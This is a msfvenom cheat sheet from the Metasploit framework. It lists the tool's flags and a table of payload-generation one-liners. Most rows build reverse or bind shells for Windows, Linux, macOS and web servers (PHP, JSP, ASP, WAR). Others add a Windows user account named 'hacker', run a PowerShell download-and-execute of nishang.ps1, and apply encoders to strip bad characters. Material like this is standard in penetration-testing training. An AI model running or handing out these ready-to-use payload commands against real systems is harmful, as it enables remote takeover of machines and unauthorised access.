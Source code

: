 ## msfvenom

### Installation

Install metasploit.

### Usage

```bash
msfvenom [options] <var=val>
```

### Flags

```bash
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
    --list-options               List --payload <value>'s standard, advanced and evasion options
-f, --format          <format>   Output format (use --list formats to list)
-e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
    --service-name    <value>    The service name to use when generating a service binary
    --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
    --smallest                   Generate the smallest possible payload using all available encoders
    --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
    --encrypt-key     <value>    A key to be used for --encrypt
    --encrypt-iv      <value>    An initialization vector for --encrypt
-a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
    --platform        <platform> The platform for --payload (use --list platforms to list)
-o, --out             <path>     Save the payload to a file
-b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
-n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
    --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
-s, --space           <length>   The maximum size of the resulting payload
    --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
-i, --iterations      <count>    The number of times to encode the payload
-c, --add-code        <path>     Specify an additional win32 shellcode file to include
-x, --template        <path>     Specify a custom executable file to use as a template
-k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
-v, --var-name        <value>    Specify a custom variable name to use for certain output formats
-t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
-h, --help                       Show this message
```

### Examples

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| `msfvenom -l payloads`                                                                                                                                                                                                    | List available payloads                         |
| `msfvenom -p PAYLOAD --list-options`                                                                                                                                                                                      | List payload options                            |
| `msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP`                                                                                                                                                       | Payload Encoding                                |
| `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                    | Linux Meterpreter reverse shell x86 multi stage |
| `msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                       | Linux Meterpreter bind shell x86 multi stage    |
| `msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                             | Linux bind shell x64 single stage               |
| `msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf`                                                                                                                                          | Linux reverse shell x64 single stage            |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                      | Windows Meterpreter reverse shell               |
| `msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe` | Windows Meterpreter http reverse shell          |
| `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe`                                                                                                                                        | Windows Meterpreter bind shell                  |
| `msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Multi Stage                         |
| `msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe`                                                                                                                                            | Windows CMD Single Stage                        |
| `msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`                                                                                                                                              | Windows add user                                |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                        | Mac Reverse Shell                               |
| `msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho`                                                                                                                                           | Mac Bind shell                                  |
| `msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py`                                                                                                                                               | Python Shell                                    |
| `msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh`                                                                                                                                                 | BASH Shell                                      |
| `msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl`                                                                                                                                                 | PERL Shell                                      |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp`                                                                                                                                      | ASP Meterpreter shell                           |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp`                                                                                                                                           | JSP Shell                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war`                                                                                                                                           | WAR Shell                                       |
| `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`                                            | Php Meterpreter Shell                           |
| `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php`                                                                                                                                            | Php Reverse Shell                               |
| `msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python`                                                                | Windows Exec Nishang Powershell in python       |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"`                                                                                                     | Bad characters shikata_ga_nai                   |
| `msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"`                                                                                                        | Bad characters fnstenv_mov                      |

# See Also

- https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675
- https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/
- http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
